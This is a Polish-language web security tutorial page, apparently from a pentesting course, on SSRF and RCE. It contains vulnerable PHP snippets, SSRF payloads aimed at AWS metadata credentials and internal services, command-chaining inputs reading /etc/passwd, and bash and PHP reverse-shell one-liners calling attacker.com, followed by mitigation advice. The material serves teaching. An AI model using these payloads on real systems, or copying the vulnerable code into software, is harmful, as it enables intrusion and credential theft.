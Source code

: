 ```yaml
---
id: "ssrf-rce"
title: "🚨 Server-Side Request Forgery (SSRF) & Remote Code Execution (RCE)"
sidebar_position: 12
---
```


# 🚨 Server-Side Request Forgery (SSRF) & Remote Code Execution (RCE)

SSRF i RCE to jedne z najbardziej niebezpiecznych podatności w aplikacjach webowych. Pozwalają atakującym na wykonywanie nieautoryzowanych żądań wewnętrznych oraz zdalne wykonywanie kodu na serwerze.

---

## 🔍 Server-Side Request Forgery (SSRF)
SSRF pozwala atakującemu na manipulowanie żądaniami HTTP wysyłanymi przez serwer. Może to prowadzić do ujawnienia wewnętrznych zasobów, eksfiltracji danych lub eskalacji ataku.

### **1️⃣ SSRF w chmurze**
W środowiskach chmurowych, takich jak AWS, Google Cloud czy Azure, SSRF może być wykorzystany do uzyskania kluczy dostępu i przejęcia infrastruktury.

#### **Przykładowe podatne żądanie**
Aplikacja pobiera obraz z podanego przez użytkownika URL:
```php
file_get_contents($_GET['url']);
```
Atakujący może użyć tego mechanizmu do dostępu do metadanych chmury AWS:
```http
http://example.com?url=http://169.254.169.254/latest/meta-data/
```
Przykładowa odpowiedź może zawierać:
```
instance-id: i-1234567890abcdef
role-name: admin-role
```
Aby pobrać klucz dostępu AWS:
```http
http://example.com?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role
```
Jeśli odpowiedź zwróci klucz AWS, atakujący może uzyskać pełen dostęp do konta chmurowego.

### **2️⃣ Wykorzystanie SSRF do dostępu do wewnętrznych zasobów**
SSRF można także wykorzystać do skanowania wewnętrznych systemów lub eksploracji API:
```http
http://example.com?url=http://127.0.0.1:8080/admin
```
Jeśli serwer odpowiada, atakujący może uzyskać dostęp do zasobów, które nie powinny być publiczne.

SSRF może być również wykorzystane do ataków na bazy danych, np. Redis:
```http
http://example.com?url=redis://127.0.0.1:6379/
```
Lub do ataku na usługi HTTP, np. Elasticsearch:
```http
http://example.com?url=http://localhost:9200/_search?q=*
```

---

## 💥 Remote Code Execution (RCE)
RCE to krytyczna podatność, która pozwala atakującemu na wykonywanie dowolnych komend systemowych na serwerze.

### **1️⃣ Wykrywanie podatności RCE**
Najczęstsze miejsca podatne na RCE to:
- **Niebezpieczne funkcje w PHP**: `eval()`, `system()`, `exec()`
- **Nieprawidłowa obsługa wejścia użytkownika w Python, Node.js, Bash**
- **Źle skonfigurowane API umożliwiające zdalne wywołanie funkcji**

#### **Przykładowy podatny kod w PHP**
```php
$cmd = $_GET['cmd'];
system($cmd);
```
Atakujący może wykonać polecenie systemowe:
```http
http://example.com?cmd=whoami
```

### **2️⃣ Eksploatacja RCE**
#### **Wstrzykiwanie komend systemowych**
Jeśli aplikacja wykonuje komendy systemowe bez odpowiedniego filtrowania, można je manipulować:
```http
http://example.com?cmd=ls
```
Jeżeli aplikacja używa operatorów `&&`, `|`, `;`, można łączyć komendy:
```http
http://example.com?cmd=whoami;id;cat /etc/passwd
```

#### **Uzyskanie Reverse Shell**
Jeśli aplikacja jest podatna na RCE, można uzyskać pełną kontrolę nad serwerem poprzez otwarcie sesji odwrotnej (reverse shell).

Atakujący uruchamia listener na swoim serwerze:
```bash
nc -lvnp 4444
```
Następnie wykonuje na podatnym serwerze polecenie otwierające sesję:
```bash
bash -i >& /dev/tcp/attacker.com/4444 0>&1
```
Jeśli serwer obsługuje PHP, można wykonać:
```php
php -r '$sock=fsockopen("attacker.com",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🔐 Jak zabezpieczyć aplikację przed SSRF i RCE?
✅ **Blokowanie dostępu do adresów lokalnych (`127.0.0.1`, `169.254.169.254`)**
✅ **Walidacja i whitelisting URL w przypadku pobierania zasobów**
✅ **Wyłączanie niebezpiecznych funkcji w PHP (`exec()`, `system()`)**
✅ **Stosowanie firewalli aplikacyjnych (WAF) do blokowania podejrzanych żądań**
✅ **Ograniczenie uprawnień procesów działających w systemie**

---

SSRF i RCE to podatności, które mogą prowadzić do pełnego przejęcia systemu. Kolejnym krokiem będzie analiza podatności **Platformy do ćwiczeń i laby pentesterskie**! 🚀
